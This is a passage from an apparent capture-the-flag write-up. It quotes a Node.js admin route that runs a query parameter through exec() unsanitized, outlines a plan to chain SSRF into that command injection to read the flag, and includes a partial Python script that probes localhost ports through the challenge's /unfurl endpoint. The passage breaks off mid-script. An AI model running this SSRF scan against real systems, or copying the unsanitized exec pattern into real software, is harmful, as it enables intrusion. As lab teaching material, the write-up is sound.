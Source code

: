 1. **Command Injection** in the admin panel's `/execute` endpoint:

```python
router.get('/execute', (req, res) => {
// Weak IP check
if (clientIp !== '127.0.0.1' && clientIp !== '::1') {
return res.status(403).send('Forbidden');
}
const cmd = req.query.cmd;
// Direct execution without sanitization
exec(cmd, (error, stdout, stderr) => {
// ...
});
});
```

- And also by using Snyk it was confirm that this application has this vulnerability.

![image.png](Files/image%2022.png)

- My strategy became clear:
    1. Use the SSRF vulnerability to scan for the admin port
    2. Access the admin panel through the SSRF vulnerability
    3. Exploit the command injection to read the flag file

- Finding the Admin Port
    - I wrote a Python script to systematically scan for the admin port:
    

```python
import requests
import concurrent.futures

def check_port(port, base_url="http://challenge.ctf.games:30959"):
    try:
        unfurl_endpoint = f"{base_url}/unfurl"
        target_url = f"http://127.0.0.1:{port}"

        response = requests.post(
            unfurl_endpoint,
            json={"url": target_url},
            timeout=5
        )

        if response.status_code == 200:
            data = response.json()
            if "Admin Panel" in data.get("title", "") or "Admin Panel" in data.get("html", ""):
                print(f"✅ FOUND ADMIN PORT: {port}")
                return port
    except Exception as e:
        pass
    return None

def find_admin_port(start_port=1024, end_port=4999, threads=10):
    print(f"Starting scan for admin port...")

    with concurrent.futures.ThreadPoolExecutor(max_workers=threads) as executor:
```